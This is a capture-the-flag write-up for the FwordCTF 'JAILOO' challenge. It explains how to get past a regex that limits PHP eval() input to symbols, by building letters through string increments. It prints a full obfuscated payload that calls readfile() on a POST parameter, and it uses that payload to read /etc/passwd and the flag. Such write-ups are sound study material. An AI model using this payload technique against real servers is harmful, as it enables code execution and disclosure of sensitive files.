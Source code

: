 
# Writeup JAILOO from fword ctf

We have the source of a php file that allow us execute commands via php eval(), the problem is a regex that only allow a few characters:
```
if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
	echo "<div class=\"success\">Command executed !</div>";
	eval($cmd);
```
This basically means that we need to create a payload without using letters or numbers, just with ``&"+=()[]``
So let's go I have coded a script that convert strings to that characters using the idea of getting an A and a from a php object like Array. We can get the "A" from index 0 and "a" from index 3.
With that I started with SYSTEM:
![f6d453f66866661cfea748c00e914fb6.png](/_resources/a515719da83441db93350317ca1a10bf.png)
But apparently it was not enabled y tried with asset, but it was disabled too.

So I end up using readfile(), As the server requires only 2 arguments I reused the submit variable to send the file I want to read. This means we need a payload like ``readfile($_POST[submit])``.
So let's create the payload I started with readfile:
![75dd983c25fd8db3c5d73810646ce083.png](/_resources/9627fd6e073e4d7cb6ecd9ba7c6bc5ab.png)
now _POST :
![19eb173e5e67667992ef9881d061e3b9.png](/_resources/4d06f3ebf6db44acbde7ac121d854f2e.png)

And finally submit:
![f9c66e3add3af3f9ce8bc6a4321daa4e.png](/_resources/e54ea12e4c52488890b4b569621437bb.png)

Adding alltogether we get our finnal pyaload:
```
$_="".[];$_=$_[""];$__=("+"=="+");$__=$__+$__+$__;$____="".[];$___=$____[$__];$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____=$__;$__=$_;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$____.=$__;$__=$_;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$____.=$__;$______=$____;$_="".[];$_=$_[""];$__=("+"=="+");$__=$__+$__+$__;$____="".[];$___=$____[$__];$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_______=$____;$_____="_";$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$_=$$_____;$______($_[$_______]);
```
We just need to go and try the files we want to read using the POST parameter submit

trying with /etc/passwd:

![14897da3858336a65ed21ef670b184b6.png](/_resources/4f7d730bae1b450bbb4e5d05c5d66737.png)
Getting the flag:

![6e1118665f791a0eb24657b6f446faba.png](/_resources/e46d23c3bc7a4d24aded3789fe054d95.png)
